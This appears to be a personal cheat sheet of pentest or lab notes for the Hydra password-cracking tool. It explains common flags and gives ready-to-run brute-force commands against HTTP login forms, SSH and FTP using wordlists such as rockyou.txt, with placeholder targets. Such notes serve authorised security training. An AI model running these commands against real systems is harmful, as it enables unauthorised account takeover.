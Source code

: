 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.





### http
```
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```


### ssh
```
hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```

### ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```




